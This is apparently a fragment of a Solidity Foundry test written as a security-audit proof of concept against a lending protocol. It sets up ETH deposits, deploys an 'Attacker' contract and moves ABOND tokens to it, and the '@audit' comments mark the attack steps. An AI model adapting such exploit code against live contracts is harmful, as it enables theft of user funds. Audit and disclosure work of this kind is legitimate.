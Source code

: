 ```solidity
  
            vm.deal(USER, globalFee.nativeFee + amountSent);
            contractsB.borrow.depositTokens{value: globalFee.nativeFee + amountSent}(
                ethPrice,
                uint64(block.timestamp),
                IBorrowing.BorrowDepositParams(
                    IOptions.StrikePrice.FIVE, strikePrice, ETH_VOLATILITY, IBorrowing.AssetName(ETH), amount
                )
            );
            
            vm.stopPrank();
        }

        {
            vm.startPrank(USER);

            vm.deal(USER, globalFee.nativeFee + amountSent);
            contractsB.borrow.depositTokens{value: globalFee.nativeFee + amountSent}(
                ethPrice,
                uint64(block.timestamp),
                IBorrowing.BorrowDepositParams(
                    IOptions.StrikePrice.FIVE, strikePrice, ETH_VOLATILITY, IBorrowing.AssetName(ETH), amount
                )
            );

            vm.stopPrank();
        }
  
        vm.warp(block.timestamp + 25920);
        vm.roll(block.number + 2160);

        ExchangeAbond exchange = new ExchangeAbond(address(contractsB.abond));
        Attacker attacker = new Attacker(address(contractsB.borrow), address(contractsB.abond), USER, address(exchange));
        vm.label(address(attacker), "Attacker");

        {
            vm.startPrank(USER);

            uint64 index = 1;
            Treasury.GetBorrowingResult memory getBorrowingResult = contractsB.treasury.getBorrowing(USER, index);
            Treasury.DepositDetails memory depositDetail = getBorrowingResult.depositDetails;

            uint256 currentCumulativeRate = contractsB.borrow.calculateCumulativeRate();
            contractsB.usda.mint(USER, 1 ether); // @audit so there are enough funds (doesn't affect the PoC)
            uint256 tokenBalance = contractsB.usda.balanceOf(USER);

            if ((currentCumulativeRate * depositDetail.normalizedAmount) / 1e27 > tokenBalance) {
                return;
            }

            contractsB.usda.approve(address(contractsB.borrow), tokenBalance);
            vm.deal(USER, globalFee.nativeFee);
            contractsB.borrow.withDraw{value: globalFee.nativeFee}(
                USER, index, "0x", "0x", ethPrice, uint64(block.timestamp)
            );

            // @audit Attacker acquiring ABOND
            contractsB.abond.transfer(address(attacker), contractsB.abond.balanceOf(USER) / 12);
```